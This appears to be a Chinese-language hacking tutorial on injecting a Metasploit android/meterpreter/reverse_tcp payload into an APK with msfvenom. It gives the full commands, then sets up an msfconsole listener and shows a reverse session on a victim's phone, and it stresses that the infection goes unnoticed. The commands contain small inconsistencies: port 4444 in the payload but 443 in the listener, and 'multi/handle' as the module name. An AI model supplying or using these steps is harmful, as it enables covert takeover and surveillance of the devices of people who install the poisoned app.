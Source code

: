 ##安装包注入病毒

这一章节介绍的是在安装包中注入病毒，当该软件被安装并启动时，也同时启动了病毒程序，这个过程是不被察觉的
##测试环境
攻击者：Kali                                 **IP地址:192.168.43.126**

victim：android                            **IP地址:192.168.43.188**
##使用msfvenom生成Payload并向安装包注入病毒

```
msfvenom --platform android -k -p android/meterpreter/reverse_tcp -x ***.apk LHOST=192.168.43.126 LPORT=4444 -o > ***.apk
```
** 注意：代码中的星号是APK安装包的位置，前一个代表源APK文件名，后一个代表生成的APK文件名 **
![msfvenom](ch2/126/msfvenom.png)
####参数讲解
**--platform** *参数指的是平台*

**-x** *参数指的是源安装包的位置*

**-p** *参数指的是Payload的类型*

**-LHOST** *参数指定的是本地Kali主机的IP地址，就是将TCP会话返回给哪台主机*

**-LPORT** *参数指定的是返回TCP会话使用的本地端口*

**-f** *参数指定的是生成的文件类型*

更详细的解释欢迎阅读其他[章节](https://hxtop1.tk/ch2_11.html "meterpreter")

![poisoned](ch2/126/poisoned.png)
##设置监听器

我们使用msfconsole来设置监听器，需要注意的是设置监听器参数的时候需要和生成Payload文件的参数一样，不然不能返回TCP会话
```
use exploit/multi/handle
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.43.126
set LPORT 443
```

等待用户安装并启动软件

![options](ch2/126/options.png)

我们现在已经可以看到收到了一个会话信息

![session](ch2/126/session.png)


现在就进入了Victim的手机，我们可以怎么控制手机呢？可以点击[链接](https://hxtop1.tk/ch2_123.html "meterpreter")查看，或者查看前几章节的内容

如果帮助到你了，希望可以得到你的打赏，谢谢[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")